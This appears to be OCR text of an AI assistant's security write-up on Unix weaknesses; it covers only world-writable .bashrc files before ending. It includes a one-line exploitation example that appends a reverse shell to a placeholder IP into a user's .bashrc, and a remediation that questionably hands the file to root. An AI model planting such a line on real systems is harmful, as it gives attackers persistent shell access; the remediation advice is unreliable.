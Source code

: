                                                                                                                                                                                                                                        
                                                                                                                                                                                                                                       
                                                                                                                                                                                                                                       
      I'll analyze common Unix-based vulnerabilities and provide structured mitigation strategies based on general knowledge since specific MCP Server research returned no results. Below are critical security concerns applicable to
      most Linux servers:                                                                                                                                                                                                              
                                                                                                                                                                                                                                       
      ---                                                                                                                                                                                                                              
                                                                                                                                                                                                                                       
      ## 1. **World-Writable Bash Configuration Files**                                                                                                                                                                                
      **Exploitation Vector**: Attackers can modify configuration files like `.bashrc` to execute arbitrary commands during login.                                                                                                     
      **Tool, Prompt, & Resource**:                                                                                                                                                                                                    
      - **Tool**: `find` (to locate misconfigured files)                                                                                                                                                                               
      - **Prompt**: "Allow user-specific shell configurations"                                                                                                                                                                         
      - **Resource**: `/home/[user]/.bashrc`                                                                                                                                                                                           
                                                                                                                                                                                                                                       
      ### Exploitation Example                                                                                                                                                                                                         
      ```bash                                                                                                                                                                                                                          
      echo "sh -i >& /dev/tcp/10.0.0.1/4444 0>&1" >> /home/ubuntu/.bashrc                                                                                                                                                              
      ```                                                                                                                                                                                                                              
                                                                                                                                                                                                                                       
      ### Remediation Command                                                                                                                                                                                                          
      ```bash                                                                                                                                                                                                                          
      chmod 644 /home/ubuntu/.bashrc && chown root:root /home/ubuntu/.bashrc                                                                                                                                                           
      ```                                                                                                                                                                                                                              
                                                                                                                                                                                                                                       